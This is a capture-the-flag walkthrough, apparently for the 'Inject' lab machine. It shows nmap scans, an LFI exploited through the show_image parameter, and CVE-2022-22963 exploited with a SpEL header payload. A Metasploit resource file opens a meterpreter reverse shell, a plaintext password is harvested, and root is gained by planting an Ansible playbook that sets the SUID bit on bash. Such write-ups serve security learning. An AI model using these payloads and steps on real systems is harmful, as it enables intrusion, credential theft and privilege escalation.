



# Inject 

| Hostname | Difficulty | Points |
| ---      | ---        | ---    |
| Inject   | Easy       | 20     |

Machine IP: 10.10.11.204 :

```bash
TARGET=10.10.11.204     # inject IP address
ATTACKER=10.10.14.2     # attacker IP
```

## Initial Reconnaissance

### Ports and services

List open ports :

```shell
nmap -p- "${TARGET}" -Pn --min-rate=1000 -T4
```

Result:

```text
Nmap scan report for 10.10.11.204
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Then enumerate the services behind these 2 ports :

```shell
nmap -sC -sV -A ${TARGET} -p22,8080
```

Result:

```text
map scan report for 10.10.11.204
Host is up (0.015s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   15.51 ms 10.10.14.1
2   15.75 ms 10.10.11.204
```

### HTTP reconnaissance

Using a web browser, explore the web application at [http://\$TARGET:8080](http://$TARGET:8080)


And there is a link to an upload form :



When uploading a random file (ex:`file.php`), the file is refused:



When uploading an image (ex:`file.jpg`), the file is accepted:



There is a filter on the upload form, on the extension, or mimetype, or something.

The link provided to get uploaded image is something like :

`http://10.10.11.204:8080/show_image?img=file.jpg`

Use BrupSuite with the repeater tool to analyse this request, a LFI quickly appears when `img=..`

Request :

```text
GET /show_image?img=.. HTTP/1.1
Host: 10.10.11.204:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

Response :

```
HTTP/1.1 200 
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 4096
Date: Sun, 09 Apr 2023 19:09:39 GMT
Connection: close

java
resources
uploads

```

A LFI is found.

### Use the LFI to gain information

Browsing and listing the folder allow to build the directory structure of the application that is located in the `/var/www/WebApp` folder

- .classpath
- .DS_Store
- .idea
- .project
- .settings
- HELP.md
- mvnw
- mvnw.cmd
- pom.xml
- src
    - main
      - java
        - com
        - META-INF
      - resources
        - application.properties
        - media
        - static
        - templates
      - uploads
    - test
- target

This is a java application, and the `pom.xml` is a cental piece of information, since this file describe how the application is build, and list its dependencies.

`img=../../../pom.xml` :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

This application is built on `springframework.boot`, a popular java web framework.

This application is identifying as :

```xml
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
```

Searching for a potential vulnerability among these dependencies, `org.springframework.cloud` contains a vulnerability patched in version 3.2.3 : CVE-2022-22963

### Information founds

OS : Linux Ubuntu

| port | service | Software/version |
| ---  | ---     | ---              |
| 22   | SSH     | OpenSSH 8.2p1    |
| 8080 | HTTP    | nagios-nsca Nagios NSCA |

Compoennts of the application :

| groupId                   | artifactId                    | Version   |
| ---                       | ---                           | ---       |
| org.springframework.boot  | spring-boot-starter-parent    | 2.6.5     |
| com.sun.activation        | javax.activation              | 1.2.0     |
| org.springframework.boot  | spring-boot-starter-thymeleaf |           |
| org.springframework.boot  | spring-boot-starter-web       |           |
| org.springframework.boot  | spring-boot-devtools          |           |
| org.springframework.cloud | spring-cloud-function-web     | 3.2.2     |
| org.webjars               | bootstrap                     | 5.1.3     |
| org.webjars               | webjars-locator-core          |           |

Vulnerabilities :

| Component                 | version   | Vulnerability     |
| ---                       | ---       | ---               |
| org.springframework.cloud | 3.2.2     | CVE-2022-22963 : RCE |


## Initial access

### Exploitation of CVE-2022-22963

An article exploin how to exploit this vulnerability [Here](https://www.fastly.com/blog/spring-has-sprung-breaking-down-cve-2022-22963-and-spring4shell-cve-2022).

This vulnerability enables an attacker to pass arbitrary code to Spring Expression Language (SpEL) via a HTTP header named `spring.cloud.function.routing-expression` as that parameter goes unvalidated by the Cloud Function.

```java
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")
```

A proof of Concept can be found on github [Here](https://github.com/lemmyz4n3771/CVE-2022-22963-PoC)

A metasploit module is available to exploit this vulnerability [Here](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/spring_cloud_function_spel_injection)

Create `inject.rc` file :

```shell
use exploit/multi/http/spring_cloud_function_spel_injection
set payload linux/x64/meterpreter/reverse_tcp
set RHOSTS 10.10.11.204
set SRVHOST tun0        
set LHOST tun0
set LPORT 4445
show options
run
```

Execute :

```shell
msfconsole -q -r inject.rc
```

and a meterpreter shell open on target

## Post-Exploitation

### Host Reconnaissance

The meterpreter shell is open under user `frank` :

```shell
meterpreter > getuid
```

Result:

```text
Server username: frank
```

There is 2 user home folders: frank and phil :

```shell
meterpreter > ls /home
```

Result:

```text
Listing: /home
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040755/rwxr-xr-x  4096  dir   2023-04-11 03:23:50 +0200  frank
040755/rwxr-xr-x  4096  dir   2023-04-11 03:32:58 +0200  phil
```

Since the current user, which is running the web application is frank, there must be some interest in frank home folder :

```shell
meterpreter > cd /home/frank
meterpreter > ls
```

Result:

```text
Listing: /home/frank
====================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
020666/rw-rw-rw-  0       cha   2023-04-10 21:04:50 +0200  .bash_history
100644/rw-r--r--  3786    fil   2022-04-18 08:18:26 +0200  .bashrc
040700/rwx------  4096    dir   2023-02-01 19:38:34 +0100  .cache
040700/rwx------  4096    dir   2023-04-11 03:17:46 +0200  .gnupg
040755/rwxr-xr-x  4096    dir   2023-02-01 19:38:34 +0100  .local
040700/rwx------  4096    dir   2023-02-01 19:38:34 +0100  .m2
100644/rw-r--r--  807     fil   2020-02-25 13:03:22 +0100  .profile
```

The `.m2` folder is used for the java compilation to store some maven configuration, and contains the file `settings.xml`:

```shell
meterpreter > cd .m2
meterpreter > ls
```

Result:

```text
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100640/rw-r-----  617   fil   2023-01-31 17:55:58 +0100  settings.xml
```

```shell
meterpreter > cat settings.xml 

```

Result:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

There is some credential for phil user, and allow us to impersonate to that user :

```shell
meterpreter > shell
su - phil
```

Result:

```text
Password: DocPhillovestoInject123
```

```shell
id
```

Result:

```text
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```

Exploring the filefystem, there is an ansible playbook file `/opt/automation/tasks/playbook_1.yml` :

```yaml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

This playbook is owned by root user :

```shell
ls -la
```

Result:

```text
total 12
drwxrwxr-x 2 root staff 4096 Apr 11 21:30 .
drwxr-xr-x 3 root root  4096 Oct 20 04:23 ..
-rw-r--r-- 1 root root   150 Apr 11 21:30 playbook_1.yml
```

This playbook is intended to set a systemd unit to be enabled and started.

It is interesting to note that this folder is writable to members of group `staff`, and phil is a member of this group


```shell
id                            
```

Result:

```text
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```

Phil is able to write in this folder.

There is a cron process running under root account, but no log. When watching running processes (several times at time = 00 seconds), the cron process run some ansible actions :

```shell
ps -efH | grep root | tail -n 20
```

Result:

```text
root      147562     955  0 22:44 ?        00:00:00     /usr/sbin/CRON -f
root      147565  147562  0 22:44 ?        00:00:00       /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
root      147566  147565  0 22:44 ?        00:00:00         /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml
root      147569  147566  0 22:44 ?        00:00:00           /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
```

This process run uder user `root`.

### Privilege Escalation

Create a new playbook file in `/opt/automation/tasks/` :

```shell
cat<<EOF > /opt/automation/tasks/playbook_privesc.yml
- hosts: localhost
  tasks:
  - name: Evil
    ansible.builtin.shell: |
	  chmod +s /bin/bash
EOF
```

This will allow any user to open a bash shell as root.

Then, just wait for a minute to the cron job to execute the playbook, and check :

```shell
ls -l /bin/bash
```

Result:

```text
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

and open a shell as root :

```shell
/bin/bash -p
```

## End game

### Cleaning

- remove file `/opt/automation/tasks/playbook_privesc.yml` 
- change password of user phil

### Remediation

- Update library org.springframework.cloud
- do not use user credential for a web service

## Loots

### credentials

| Username  | Password  				| Hash      | Usage     |
| ---       | ---       				| ---       | ---       |
| phil 	    | DocPhillovestoInject123 	|           |           |
